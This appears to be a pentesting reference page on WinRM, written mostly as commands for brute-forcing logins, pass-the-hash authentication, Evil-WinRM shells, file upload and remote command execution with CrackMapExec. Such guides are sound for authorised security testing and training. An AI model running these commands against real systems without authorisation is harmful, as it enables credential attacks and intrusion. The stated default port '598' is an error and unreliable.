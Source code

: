 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: Default port is 598, 5986.
tags: [598, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## 1. Enumeration

1. **Brute Force Credentials**

    1. **Use CrackMapExec**

        ```sh
        cd crackmapexec
        poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
        ```

    2. **Use Metasploit**

        ```sh
        msfconsole
        msf > use auxiliary/scanner/winrm/winrm_login
        ```

<br />

## 2. Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        evil-winrm -i <target-ip> -P 5986 -u username -p password
        
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

        # SSL enabled (-S)
        evil-winrm -i <target-ip> -u username -p password -S
        ```

        If you have private key and public key, you can use them for authentication.

        ```sh
        # -S: SSL
        # -k: private key
        # -c: public key
        evil-winrm -i <target-ip> -S -k private.key -c public.key
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}** is a swiss army knife for pentesting networks.  
    The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

    First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

    ```sh
    cd crackmapexec
    poetry install
    ```

    Then execute with **poetry run**.

    ```sh
    # Login and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```